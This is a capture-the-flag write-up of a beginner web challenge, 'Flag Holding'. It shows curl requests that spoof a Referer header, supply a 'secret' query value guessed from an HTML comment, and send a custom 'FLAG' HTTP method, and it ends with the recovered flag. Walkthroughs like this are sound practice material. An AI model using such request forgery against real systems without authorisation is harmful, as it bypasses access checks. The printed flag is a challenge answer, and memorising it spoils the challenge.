 # Flag Holding Writeup

by xhyr

Hopefully you know how web works...

`http://18.184.219.56:8080/`

The url greets us with this:

![Index Image](images/1.png)

Its hinting that we should come from `http://flagland.internal/` so, we can fake that with a `Referer: http://flagland.internal/` in the headers.

```bash
curl 'http://18.184.219.56:8080/' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

(This can also be done with Edit and Resend feature in dev tools)

With this curl statement, we get this result:

```html
...
<body>
	<div class="msg" style="">Unspecified "secret".</div>
</body>
...
```

We need to set a value for "secret". I first tried passing `Secret`, `Authorization` headers and a cookie with a key named `Secret` but none of that seemed to work.

So I tried to pass it through a GET query by adding a `?secret=a`

```bash
curl 'http://18.184.219.56:8080?secret=a' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

Running that, we get this:

```html
...
<body>
	<div class="msg" style="">
		Incorrect secret.
		<!-- hint: secret is ____ which is the name of the protocol that both this server and your browser agrees on... -->
	</div>
</body>
...
```

In the raw HTML there's a clue. So, using that clue we'll try `?secret=http`

```bash
curl 'http://18.184.219.56:8080?secret=http' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/'
```

After this, we get this message:

```html
...
<body>
	<div class="msg" style="">
		Sorry we don't have "GET" here but we might have other things like "FLAG".
	</div>
</body>
...
```

So we try to curl it again but now we use a `-X FLAG` to specify the http method. This is also why I decided to use curl since I don't know how to set a custom method for http in the dev tools.

```bash
curl 'http://18.184.219.56:8080?secret=http' --compressed \
      -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
      -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' \
      -H 'Accept-Language: en-US,en;q=0.5' \
      -H 'Accept-Encoding: gzip, deflate' \
      -H 'Connection: keep-alive' \
      -H 'Cookie: secret=idk' \
      -H 'Upgrade-Insecure-Requests: 1' \
      -H 'Referer: http://flagland.internal/' \
      -X FLAG
```

Then, we get the flag:

```html
...
<body>
	<div class="msg" style="">MAPNA{533m5-l1k3-y0u-kn0w-h77p-1836a2f}</div>
</body>
...
```
